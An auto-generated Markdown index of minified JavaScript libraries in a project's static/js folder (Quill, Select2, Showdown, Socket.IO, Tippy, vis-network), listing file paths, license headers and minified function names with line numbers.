- `t` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `l` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `h` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `e` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `l` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `e` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `l` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `n` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `e` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `t` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `l` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `r` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `r` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `n` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `t` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `r` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `e` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `w` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `q` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `l` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `e` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `e` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `R` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `e` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `r` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `e` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `i` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `st` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `e` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `n` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `r` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `A` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `f` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `n` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `n` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `n` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `F` (line 2) - */*! For license information please see quill.js.LICENSE.txt*

#### `select2-4.1.0.min.js`
**Path:** `static/js/select2-4.1.0.min.js`
**File Doc:** *! Select2 4.1.0-beta.1 | https://github.com/select2/select2/blob/master/LICENSE.md*

**Functions:**
- `e` (line 2) - */*! Select2 4.1.0-beta.1 | https://github.com/select2/select2/blob/master/LICENSE.md*
- `t` (line 2) - */*! Select2 4.1.0-beta.1 | https://github.com/select2/select2/blob/master/LICENSE.md*
- `d` (line 2) - */*! Select2 4.1.0-beta.1 | https://github.com/select2/select2/blob/master/LICENSE.md*

#### `showdown-2.1.0.min.js`
**Path:** `static/js/showdown-2.1.0.min.js`
**File Doc:** *! showdown v 2.1.0 - 21-04-2022*

**Functions:**
- `but` (line 2) - */*! showdown v 2.1.0 - 21-04-2022*
- `must` (line 2) - */*! showdown v 2.1.0 - 21-04-2022*
- `must` (line 2) - */*! showdown v 2.1.0 - 21-04-2022*
- `must` (line 2) - */*! showdown v 2.1.0 - 21-04-2022*
- `a` (line 2) - */*! showdown v 2.1.0 - 21-04-2022*

#### `socket.io-4.0.0.min.js`
**Path:** `static/js/socket.io-4.0.0.min.js`
**File Doc:** *!*

**Classes:**
- `as` (line 6) - *! Socket.IO v4.0.0 (c) 2014-2021 Guillermo Rauch Released under the MIT License.*
- `as` (line 6) - *! Socket.IO v4.0.0 (c) 2014-2021 Guillermo Rauch Released under the MIT License.*
- `as` (line 6) - *! Socket.IO v4.0.0 (c) 2014-2021 Guillermo Rauch Released under the MIT License.*
- `as` (line 6) - *! Socket.IO v4.0.0 (c) 2014-2021 Guillermo Rauch Released under the MIT License.*
- `as` (line 6) - *! Socket.IO v4.0.0 (c) 2014-2021 Guillermo Rauch Released under the MIT License.*
- `as` (line 6) - *! Socket.IO v4.0.0 (c) 2014-2021 Guillermo Rauch Released under the MIT License.*
- `as` (line 6) - *! Socket.IO v4.0.0 (c) 2014-2021 Guillermo Rauch Released under the MIT License.*
- `as` (line 6) - *! Socket.IO v4.0.0 (c) 2014-2021 Guillermo Rauch Released under the MIT License.*
- `as` (line 6) - *! Socket.IO v4.0.0 (c) 2014-2021 Guillermo Rauch Released under the MIT License.*
- `as` (line 6) - *! Socket.IO v4.0.0 (c) 2014-2021 Guillermo Rauch Released under the MIT License.*

**Functions:**
- `o` (line 6) - *! Socket.IO v4.0.0 (c) 2014-2021 Guillermo Rauch Released under the MIT License.*
- `e` (line 6) - *! Socket.IO v4.0.0 (c) 2014-2021 Guillermo Rauch Released under the MIT License.*
- `r` (line 6) - *! Socket.IO v4.0.0 (c) 2014-2021 Guillermo Rauch Released under the MIT License.*
- `e` (line 6) - *! Socket.IO v4.0.0 (c) 2014-2021 Guillermo Rauch Released under the MIT License.*
- `v` (line 6) - *! Socket.IO v4.0.0 (c) 2014-2021 Guillermo Rauch Released under the MIT License.*
- `b` (line 6) - *! Socket.IO v4.0.0 (c) 2014-2021 Guillermo Rauch Released under the MIT License.*
- `f` (line 6) - *! Socket.IO v4.0.0 (c) 2014-2021 Guillermo Rauch Released under the MIT License.*
- `m` (line 6) - *! Socket.IO v4.0.0 (c) 2014-2021 Guillermo Rauch Released under the MIT License.*
- `e` (line 6) - *! Socket.IO v4.0.0 (c) 2014-2021 Guillermo Rauch Released under the MIT License.*
- `e` (line 6) - *! Socket.IO v4.0.0 (c) 2014-2021 Guillermo Rauch Released under the MIT License.*
- `r` (line 6) - *! Socket.IO v4.0.0 (c) 2014-2021 Guillermo Rauch Released under the MIT License.*
- `e` (line 6) - *! Socket.IO v4.0.0 (c) 2014-2021 Guillermo Rauch Released under the MIT License.*
- `r` (line 6) - *! Socket.IO v4.0.0 (c) 2014-2021 Guillermo Rauch Released under the MIT License.*
- `e` (line 6) - *! Socket.IO v4.0.0 (c) 2014-2021 Guillermo Rauch Released under the MIT License.*
- `p` (line 6) - *! Socket.IO v4.0.0 (c) 2014-2021 Guillermo Rauch Released under the MIT License.*
- `e` (line 6) - *! Socket.IO v4.0.0 (c) 2014-2021 Guillermo Rauch Released under the MIT License.*
- `e` (line 6) - *! Socket.IO v4.0.0 (c) 2014-2021 Guillermo Rauch Released under the MIT License.*
- `e` (line 6) - *! Socket.IO v4.0.0 (c) 2014-2021 Guillermo Rauch Released under the MIT License.*
- `c` (line 6) - *! Socket.IO v4.0.0 (c) 2014-2021 Guillermo Rauch Released under the MIT License.*
- `r` (line 6) - *! Socket.IO v4.0.0 (c) 2014-2021 Guillermo Rauch Released under the MIT License.*
- `e` (line 6) - *! Socket.IO v4.0.0 (c) 2014-2021 Guillermo Rauch Released under the MIT License.*
- `e` (line 6) - *! Socket.IO v4.0.0 (c) 2014-2021 Guillermo Rauch Released under the MIT License.*

#### `socket.io-4.3.2.min.js`
**Path:** `static/js/socket.io-4.3.2.min.js`
**File Doc:** *!*

**Classes:**
- `as` (line 6) - *! Socket.IO v4.3.2 (c) 2014-2021 Guillermo Rauch Released under the MIT License.*

**Functions:**
- `o` (line 6) - *! Socket.IO v4.3.2 (c) 2014-2021 Guillermo Rauch Released under the MIT License.*
- `e` (line 6) - *! Socket.IO v4.3.2 (c) 2014-2021 Guillermo Rauch Released under the MIT License.*
- `r` (line 6) - *! Socket.IO v4.3.2 (c) 2014-2021 Guillermo Rauch Released under the MIT License.*
- `n` (line 6) - *! Socket.IO v4.3.2 (c) 2014-2021 Guillermo Rauch Released under the MIT License.*
- `n` (line 6) - *! Socket.IO v4.3.2 (c) 2014-2021 Guillermo Rauch Released under the MIT License.*
- `n` (line 6) - *! Socket.IO v4.3.2 (c) 2014-2021 Guillermo Rauch Released under the MIT License.*
- `e` (line 6) - *! Socket.IO v4.3.2 (c) 2014-2021 Guillermo Rauch Released under the MIT License.*
- `o` (line 6) - *! Socket.IO v4.3.2 (c) 2014-2021 Guillermo Rauch Released under the MIT License.*
- `s` (line 6) - *! Socket.IO v4.3.2 (c) 2014-2021 Guillermo Rauch Released under the MIT License.*
- `f` (line 6) - *! Socket.IO v4.3.2 (c) 2014-2021 Guillermo Rauch Released under the MIT License.*
- `wt` (line 6) - *! Socket.IO v4.3.2 (c) 2014-2021 Guillermo Rauch Released under the MIT License.*
- `h` (line 6) - *! Socket.IO v4.3.2 (c) 2014-2021 Guillermo Rauch Released under the MIT License.*
- `Et` (line 6) - *! Socket.IO v4.3.2 (c) 2014-2021 Guillermo Rauch Released under the MIT License.*
- `Nt` (line 6) - *! Socket.IO v4.3.2 (c) 2014-2021 Guillermo Rauch Released under the MIT License.*

#### `tippy-6.js`
**Path:** `static/js/tippy-6.js`

**Functions:**
- `e` (line 1)
- `r` (line 1)
- `u` (line 1)

#### `vis-network-9.1.2.min.js`
**Path:** `static/js/vis-network-9.1.2.min.js`

**Classes:**
- `as` (line 26) - *@license vis.js is dual licensed under both  1. The Apache 2.0 License http://www.apache.org/licenses/LICENSE-2.0  and  2. The MIT License http://opensource.org/licenses/MIT  vis.js may be distributed under either license.*
- `did` (line 48) - *! ***************************************************************************** Copyright (c) Microsoft Corporation. Permission to use, copy, modify, and/or distribute this software for any purpose with or without fee is hereby granted. THE SOFTWARE IS PROVIDED "AS IS" AND THE AUTHOR DISCLAIMS ALL WARRANTIES WITH REGARD TO THIS SOFTWARE INCLUDING ALL IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS. IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY SPECIAL, DIRECT, INDIRECT, OR CONSEQUENTIAL DAMAGES OR ANY DAMAGES WHATSOEVER RESULTING FROM LOSS OF USE, DATA OR PROFITS, WHETHER IN AN ACTION OF CONTRACT, NEGLIGENCE OR OTHER TORTIOUS ACTION, ARISING OUT OF OR IN CONNECTION WITH THE USE OR PERFORMANCE OF THIS SOFTWARE. ******************************************************************************
- `did` (line 48) - *! ***************************************************************************** Copyright (c) Microsoft Corporation. Permission to use, copy, modify, and/or distribute this software for any purpose with or without fee is hereby granted. THE SOFTWARE IS PROVIDED "AS IS" AND THE AUTHOR DISCLAIMS ALL WARRANTIES WITH REGARD TO THIS SOFTWARE INCLUDING ALL IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS. IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY SPECIAL, DIRECT, INDIRECT, OR CONSEQUENTIAL DAMAGES OR ANY DAMAGES WHATSOEVER RESULTING FROM LOSS OF USE, DATA OR PROFITS, WHETHER IN AN ACTION OF CONTRACT, NEGLIGENCE OR OTHER TORTIOUS ACTION, ARISING OUT OF OR IN CONNECTION WITH THE USE OR PERFORMANCE OF THIS SOFTWARE. ******************************************************************************
- `as` (line 48) - *! ***************************************************************************** Copyright (c) Microsoft Corporation. Permission to use, copy, modify, and/or distribute this software for any purpose with or without fee is hereby granted. THE SOFTWARE IS PROVIDED "AS IS" AND THE AUTHOR DISCLAIMS ALL WARRANTIES WITH REGARD TO THIS SOFTWARE INCLUDING ALL IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS. IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY SPECIAL, DIRECT, INDIRECT, OR CONSEQUENTIAL DAMAGES OR ANY DAMAGES WHATSOEVER RESULTING FROM LOSS OF USE, DATA OR PROFITS, WHETHER IN AN ACTION OF CONTRACT, NEGLIGENCE OR OTHER TORTIOUS ACTION, ARISING OUT OF OR IN CONNECTION WITH THE USE OR PERFORMANCE OF THIS SOFTWARE. ******************************************************************************

**Functions:**
- `Pc` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `or` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `in` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `does` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `rO` (line 48) - *! ***************************************************************************** Copyright (c) Microsoft Corporation. Permission to use, copy, modify, and/or distribute this software for any purpose with or without fee is hereby granted. THE SOFTWARE IS PROVIDED "AS IS" AND THE AUTHOR DISCLAIMS ALL WARRANTIES WITH REGARD TO THIS SOFTWARE INCLUDING ALL IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS. IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY SPECIAL, DIRECT, INDIRECT, OR CONSEQUENTIAL DAMAGES OR ANY DAMAGES WHATSOEVER RESULTING FROM LOSS OF USE, DATA OR PROFITS, WHETHER IN AN ACTION OF CONTRACT, NEGLIGENCE OR OTHER TORTIOUS ACTION, ARISING OUT OF OR IN CONNECTION WITH THE USE OR PERFORMANCE OF THIS SOFTWARE. ******************************************************************************
- `g` (line 48) - *! ***************************************************************************** Copyright (c) Microsoft Corporation. Permission to use, copy, modify, and/or distribute this software for any purpose with or without fee is hereby granted. THE SOFTWARE IS PROVIDED "AS IS" AND THE AUTHOR DISCLAIMS ALL WARRANTIES WITH REGARD TO THIS SOFTWARE INCLUDING ALL IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS. IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY SPECIAL, DIRECT, INDIRECT, OR CONSEQUENTIAL DAMAGES OR ANY DAMAGES WHATSOEVER RESULTING FROM LOSS OF USE, DATA OR PROFITS, WHETHER IN AN ACTION OF CONTRACT, NEGLIGENCE OR OTHER TORTIOUS ACTION, ARISING OUT OF OR IN CONNECTION WITH THE USE OR PERFORMANCE OF THIS SOFTWARE. ******************************************************************************
- `g` (line 48) - *! ***************************************************************************** Copyright (c) Microsoft Corporation. Permission to use, copy, modify, and/or distribute this software for any purpose with or without fee is hereby granted. THE SOFTWARE IS PROVIDED "AS IS" AND THE AUTHOR DISCLAIMS ALL WARRANTIES WITH REGARD TO THIS SOFTWARE INCLUDING ALL IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS. IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY SPECIAL, DIRECT, INDIRECT, OR CONSEQUENTIAL DAMAGES OR ANY DAMAGES WHATSOEVER RESULTING FROM LOSS OF USE, DATA OR PROFITS, WHETHER IN AN ACTION OF CONTRACT, NEGLIGENCE OR OTHER TORTIOUS ACTION, ARISING OUT OF OR IN CONNECTION WITH THE USE OR PERFORMANCE OF THIS SOFTWARE. ******************************************************************************
- `has` (line 48) - *! ***************************************************************************** Copyright (c) Microsoft Corporation. Permission to use, copy, modify, and/or distribute this software for any purpose with or without fee is hereby granted. THE SOFTWARE IS PROVIDED "AS IS" AND THE AUTHOR DISCLAIMS ALL WARRANTIES WITH REGARD TO THIS SOFTWARE INCLUDING ALL IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS. IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY SPECIAL, DIRECT, INDIRECT, OR CONSEQUENTIAL DAMAGES OR ANY DAMAGES WHATSOEVER RESULTING FROM LOSS OF USE, DATA OR PROFITS, WHETHER IN AN ACTION OF CONTRACT, NEGLIGENCE OR OTHER TORTIOUS ACTION, ARISING OUT OF OR IN CONNECTION WITH THE USE OR PERFORMANCE OF THIS SOFTWARE. ******************************************************************************
- `does` (line 48) - *! ***************************************************************************** Copyright (c) Microsoft Corporation. Permission to use, copy, modify, and/or distribute this software for any purpose with or without fee is hereby granted. THE SOFTWARE IS PROVIDED "AS IS" AND THE AUTHOR DISCLAIMS ALL WARRANTIES WITH REGARD TO THIS SOFTWARE INCLUDING ALL IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS. IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY SPECIAL, DIRECT, INDIRECT, OR CONSEQUENTIAL DAMAGES OR ANY DAMAGES WHATSOEVER RESULTING FROM LOSS OF USE, DATA OR PROFITS, WHETHER IN AN ACTION OF CONTRACT, NEGLIGENCE OR OTHER TORTIOUS ACTION, ARISING OUT OF OR IN CONNECTION WITH THE USE OR PERFORMANCE OF THIS SOFTWARE. ******************************************************************************
- `C` (line 26) - *@license vis.js is dual licensed under both  1. The Apache 2.0 License http://www.apache.org/licenses/LICENSE-2.0  and  2. The MIT License http://opensource.org/licenses/MIT  vis.js may be distributed under either license.*
- `s` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `e` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `e` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `f` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `s` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `d` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `h` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `i` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `f` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `v` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `I` (line 48) - *! ***************************************************************************** Copyright (c) Microsoft Corporation. Permission to use, copy, modify, and/or distribute this software for any purpose with or without fee is hereby granted. THE SOFTWARE IS PROVIDED "AS IS" AND THE AUTHOR DISCLAIMS ALL WARRANTIES WITH REGARD TO THIS SOFTWARE INCLUDING ALL IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS. IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY SPECIAL, DIRECT, INDIRECT, OR CONSEQUENTIAL DAMAGES OR ANY DAMAGES WHATSOEVER RESULTING FROM LOSS OF USE, DATA OR PROFITS, WHETHER IN AN ACTION OF CONTRACT, NEGLIGENCE OR OTHER TORTIOUS ACTION, ARISING OUT OF OR IN CONNECTION WITH THE USE OR PERFORMANCE OF THIS SOFTWARE. ******************************************************************************
- `v` (line 48) - *! ***************************************************************************** Copyright (c) Microsoft Corporation. Permission to use, copy, modify, and/or distribute this software for any purpose with or without fee is hereby granted. THE SOFTWARE IS PROVIDED "AS IS" AND THE AUTHOR DISCLAIMS ALL WARRANTIES WITH REGARD TO THIS SOFTWARE INCLUDING ALL IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS. IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY SPECIAL, DIRECT, INDIRECT, OR CONSEQUENTIAL DAMAGES OR ANY DAMAGES WHATSOEVER RESULTING FROM LOSS OF USE, DATA OR PROFITS, WHETHER IN AN ACTION OF CONTRACT, NEGLIGENCE OR OTHER TORTIOUS ACTION, ARISING OUT OF OR IN CONNECTION WITH THE USE OR PERFORMANCE OF THIS SOFTWARE. ******************************************************************************
- `g` (line 26) - *@license vis.js is dual licensed under both  1. The Apache 2.0 License http://www.apache.org/licenses/LICENSE-2.0  and  2. The MIT License http://opensource.org/licenses/MIT  vis.js may be distributed under either license.*
- `t` (line 26) - *@license vis.js is dual licensed under both  1. The Apache 2.0 License http://www.apache.org/licenses/LICENSE-2.0  and  2. The MIT License http://opensource.org/licenses/MIT  vis.js may be distributed under either license.*
- `zo` (line 26) - *@license vis.js is dual licensed under both  1. The Apache 2.0 License http://www.apache.org/licenses/LICENSE-2.0  and  2. The MIT License http://opensource.org/licenses/MIT  vis.js may be distributed under either license.*
- `nc` (line 26) - *@license vis.js is dual licensed under both  1. The Apache 2.0 License http://www.apache.org/licenses/LICENSE-2.0  and  2. The MIT License http://opensource.org/licenses/MIT  vis.js may be distributed under either license.*
- `su` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `ku` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `Nu` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `Wu` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `Xu` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `gp` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `np` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `vp` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `g` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `t` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `g` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `I` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `o` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `o` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `A` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `ov` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `t` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `t` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `mw` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `kw` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `Ew` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `Ow` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `t` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `qw` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `e` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `C` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `t` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `ik` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `t` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `nk` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `t` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `sk` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `t` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `dk` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `t` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `lk` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `t` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `fk` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `t` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `yk` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `t` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `bk` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `t` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `kk` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `t` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `Ek` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `t` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `Tk` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `t` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `Nk` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `t` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
